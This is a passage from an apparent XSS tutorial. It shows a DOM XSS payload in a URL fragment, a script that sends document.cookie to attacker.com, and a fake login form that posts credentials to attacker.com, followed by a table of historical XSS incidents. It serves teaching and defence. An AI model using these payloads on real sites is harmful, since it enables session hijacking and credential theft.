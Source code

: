 * **Insert payload in URL fragment:**
    
    ```plaintext
    https://victim.com/page#<script>alert('DOM XSS')</script>
    ```
    
* **Script executes in the client browser.**
    

---

### 4\. Advanced Exploits: Stealing Session Cookies

With XSS, attackers can exfiltrate session cookies to hijack user sessions.

#### Example:

```js
<script>
fetch("http://attacker.com/steal?c=" + document.cookie);
</script>
```

This payload sends the victim's cookies to the attacker's server.

**Important:** Modern browsers implement HttpOnly cookies to prevent this. However, legacy systems may still be vulnerable.

---

### 5\. Phishing via HTML Injection

Attackers can inject fake login forms to trick users into entering credentials.

#### Example:

```html
<form action="http://attacker.com/login">
  <input type="text" name="user" />
  <input type="password" name="pass" />
  <input type="submit" />
</form>
```

Victims may mistake this for a legitimate login form and unknowingly submit their credentials.

---

## **Case Studies: XSS in the Wild**

| Target | Year | Type | Impact |
| --- | --- | --- | --- |
| **MySpace** | 2005 | Stored | 1M profiles infected in hours |
| **eBay** | 2015–16 | Reflected | Account takeover via URL |
| **Twitter** | 2009 | Stored | Auto-retweet worm spread fast |
| **British Airways** | 2018 | Reflected | Credit card skimming |
| **Fortnite** | 2019 | Reflected | Session hijacking potential |

---